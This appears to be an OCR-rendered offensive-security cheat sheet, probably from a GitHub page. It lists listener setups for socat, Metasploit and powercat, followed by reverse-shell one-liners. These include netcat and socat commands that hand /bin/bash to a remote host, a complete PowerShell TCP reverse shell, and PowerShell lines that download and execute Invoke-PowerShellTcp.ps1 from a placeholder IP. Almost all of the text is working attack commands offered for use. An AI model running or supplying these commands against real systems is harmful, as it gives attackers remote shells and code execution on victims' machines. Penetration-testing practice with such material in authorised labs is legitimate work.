 #### Socat listener
```
sudo socat -d -d TCP4-LISTEN:<PORT> STDOUT
```

#### Meterpreter listener
```
msfconsole
use multi/handler
set payload <PAYLOAD>
run
```

#### Powercat listener
```
. ./powercat.ps1
powercat -l -v -p 10000
```

### Reverse shells
- Generator tool https://github.com/mthbernardes/rsg
#### Netcat
```
nc -nv <IP> <PORT> -e /bin/bash
```

#### Socat
```
socat TCP4:<IP>:<PORT> EXEC:/bin/bash
```

#### Powershell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -usebasicparsing);Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

#### Powercat
```
powercat -c <IP> -p <PORT> -e cmd.exe
```
